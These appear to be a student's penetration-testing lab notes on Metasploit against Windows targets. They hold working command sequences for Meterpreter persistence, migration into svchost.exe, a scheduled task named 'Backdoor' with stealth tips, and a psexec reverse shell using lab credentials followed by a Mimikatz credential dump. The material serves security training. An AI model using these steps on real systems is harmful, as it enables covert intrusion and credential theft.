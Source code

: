 3. To view active sessions, type `sessions` and select the session based on the ID via the following command:
     - `sessions -i [session ID]`
Congratulations! You successfully created, transferred, and executed a custom payload on a Windows machine.
#### Activity 2
1.  Background the Meterpreter session via the `background` command.
2.  Use the `windows/local/persistence_service` module in Metasploit.
3.  View the OPTIONS and set the SESSION to your current Meterpreter session number ID. If you're unsure of the session number, type `sessions`.
4.  Once the parameters are set, run the module.
5.  Once complete, view the user ID.
6.  Notice that the executable it uploads is a random file name. How could we make this more stealthy?
		setting the remote exe files name and path could allow us to better hide our persistence.
		

#### Activity 3
migrating to the svchost.exe process
```bash
migrate         #shows syntax
ps              #shows active processes
# we must migrate to a process that does not interfere with core windows process. svchost.exe is a common usable process
migrate 3612    #takes us to process 3612
```

#### Activity 4
1.  In your Meterpreter session, drop into a `shell` session.
    -   `shell`
2.  Create a scheduled task that will execute your payload every day at midnight.
    -   `schtasks /create /f /tn Backdoor /SC ONCE /ST 00:00 /TR "C:\shell.exe"`
Test your scheduled task.
-   `schtasks /run /tn Backdoor`
How could you improve this technique to make it more stealthy?
-   Better task name
    
-   Execute a better-named payload
    
-   Schedule the task only to run on certain events, such as logon

### Day 7
#### Activity 1
MIMIKATZ DEMO
``` bash
msfconole
	> #get a shell
	> use exploit/windows/smb/psexec
	> set rhosts 172.22.117.20
	> set smbuser tstark
	> set smbpass Password!
	> set smbdomain megacorpone
	> set LHOST 172.22.117.100
	> run
	> #migrate to x64 arch SYSTEM user
	> getpid  #observepid
	> ps
	> 	#find SYSTEM svchost.exe pid
	> migrate <pid>
	> #credential dump
	> load kiwi
	> ?    #observe new kiwi commands
	> lsa_dump_sam   #observe NTLM hashes
	> creds_all

```